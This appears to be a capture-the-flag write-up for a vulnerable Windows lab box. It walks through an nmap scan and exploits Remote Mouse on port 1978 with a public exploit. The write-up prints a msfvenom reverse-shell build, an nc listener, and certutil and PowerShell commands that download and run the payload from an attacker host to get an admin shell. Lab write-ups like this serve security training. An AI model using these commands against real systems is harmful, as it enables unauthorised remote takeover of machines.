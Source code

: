 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=unDGYDe1ljw)|[Download](https://drive.google.com/file/d/1uTJDtFDX9WkhUt-HEuZ5iNS-3CmHMP0m/view)|

# 1. nmap scan

```console
┌──(root㉿kali)-[~]
└─$ nmap -p- -A 10.0.88.34
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-27 08:15 +08
Nmap scan report for 10.0.88.34
Host is up (0.0012s latency).
Not shown: 65515 closed tcp ports (conn-refused)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            FileZilla ftpd 0.9.41 beta
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 AccountPictures
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 Desktop
| -r--r--r-- 1 ftp ftp            174 Jul 16  2016 desktop.ini
| drwxr-xr-x 1 ftp ftp              0 Sep 14  2021 Documents
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Downloads
| drwxr-xr-x 1 ftp ftp              0 Oct 01  2021 FTP
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Libraries
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Music
| drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Pictures
|_drwxr-xr-x 1 ftp ftp              0 Jul 16  2016 Videos
80/tcp    open  http           Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| http-title: Welcome to XAMPP
|_Requested resource was http://10.0.88.34/dashboard/
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
443/tcp   open  ssl/http       Apache httpd 2.4.17 ((Win32) OpenSSL/1.0.2d PHP/5.6.14)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.17 (Win32) OpenSSL/1.0.2d PHP/5.6.14
| http-title: Welcome to XAMPP
|_Requested resource was https://10.0.88.34/dashboard/
445/tcp   open  microsoft-ds   Windows 10 Pro 14393 microsoft-ds (workgroup: ITSL)
1978/tcp  open  unisql?
| fingerprint-strings:
|   DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, ms-sql-s:
|_    SIN 15win nop nop 300
1979/tcp  open  unisql-java?
1980/tcp  open  pearldoc-xact?
3306/tcp  open  mysql          MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server  Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: MOUSEKATOOL2
|   NetBIOS_Domain_Name: MOUSEKATOOL2
|   NetBIOS_Computer_Name: MOUSEKATOOL2
|   DNS_Domain_Name: mousekatool2
|   DNS_Computer_Name: mousekatool2
|   Product_Version: 10.0.14393
|_  System_Time: 2022-11-27T00:17:50+00:00
| ssl-cert: Subject: commonName=mousekatool2
| Not valid before: 2022-11-26T15:13:31
|_Not valid after:  2023-05-28T15:13:31
|_ssl-date: 2022-11-27T00:18:18+00:00; 0s from scanner time.
5357/tcp  open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8021/tcp  open  ftp-proxy?
| fingerprint-strings:
|   NULL:
|     Content-Type: text/rude-rejection
|     Content-Length: 24
|     Access Denied, go away.
|     Content-Type: text/disconnect-notice
|     Content-Length: 67
|     Disconnected, goodbye.
|_    ClueCon! http://www.cluecon.com/
49664/tcp open  msrpc          Microsoft Windows RPC
49665/tcp open  msrpc          Microsoft Windows RPC
49666/tcp open  msrpc          Microsoft Windows RPC
49667/tcp open  msrpc          Microsoft Windows RPC
49668/tcp open  msrpc          Microsoft Windows RPC
49669/tcp open  msrpc          Microsoft Windows RPC
49683/tcp open  msrpc          Microsoft Windows RPC
⋮
```

# 2. Checking for exploits

At first look, it appears that `21/ftp`, `80/http` and `443/https` are easy targets.

However, enumerating the FTP didn't return any useful data, and there doesn't seem to be any exploits usable on the XAMPP stack.

All looks lost: it doesn't seem like there are any other exploits available, and the unknown ports 1978, 1979 and 1980 appear to point to unisql, unisql-java and peardoc-xact when you google for the port numbers.

☝️ **Important learning point from this box:**
- Be sure to check out the banner information (if any) returned from the scan
- Port 1978 returned a gibberish banner `SIN 15win nop nop 300`, which upon googling, leads you to the [Remote Mouse exploit](https://www.exploit-db.com/raw/46697)
- Another method is to google for `1978 site:www.exploit-db.com`, which will also return the Remote Mouse exploit as a result

The 46697.py expolits Remote Mouse to launch `calc.exe`; the line `SendString("calc.exe",ip)` can be modified to run other commands.

# 3. Getting a shell

Generate reverse shell executable and place in web server root:

(Apache2 is already running with DocumentRoot at `/var/www/html`)

```console
┌──(root㉿kali)-[~]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/reverse.exe
```

Open another console window on Kali to listen for connections:

```console
┌──(root㉿kali)-[~]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
```

Modify the exploit to download and run the payload

**Option 1:** using Command Prompt

```console
SendString("cmd /c "certutil.exe /urlcache /f /split http://kali.vx/reverse.exe && .\\reverse.exe"",ip)
```

**Option 2:** using PowerShell

```console
SendString("powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','reverse.exe'); Start-Process reverse.exe",ip)
```

Run the exploit

```console
┌──(root㉿kali)-[~]
└─$ python2 46697.py 10.0.88.34
('SUCCESS! Process calc.exe has run on target', '10.0.88.34')
```

Verify that the reverse shell has hooked on from the listener console

```cmd
connect to [192.168.17.10] from (UNKNOWN) [10.0.88.34] 49881
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
mousekatool2\mickey

C:\Windows\system32>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Excellent, we now have shell on the target, and it is an admin shell (High Mandatory Level)

# 4. Getting the proof

Since we know that the proof is a file on the user's desktop, let's get straight to it

```cmd
C:\Windows\system32>cd %USERPROFILE%
cd %USERPROFILE%

C:\Users\Mickey>dir /s *flag.txt*
dir /s *flag.txt*
 Volume in drive C has no label.
 Volume Serial Number is DA18-B95C

 Directory of C:\Users\Mickey\AppData\Roaming\Microsoft\Windows\Recent

10/01/2021  01:55 PM               554 flag.txt.lnk
               1 File(s)            554 bytes

 Directory of C:\Users\Mickey\Desktop

10/01/2021  01:56 PM               345 flag.txt.txt
               1 File(s)            345 bytes

     Total Files Listed:
               2 File(s)            899 bytes
               0 Dir(s)  40,675,540,992 bytes free

C:\Users\Mickey>type Desktop\flag.txt.txt
type Desktop\flag.txt.txt
What we have learned:
1) ALWAYS check ftp with anonymous
2)check every running ports, BANNERS, BANNERS can have good info!
3)Look for public exploits
4)Know how to read public exploits
5) If one way fails, try another way

CONGRATS ON ROOTING THE BOX

Try the next one from ITSL
https://www.youtube.com/channel/UCXPdZsu8g1nKerd-o5A75vA
```
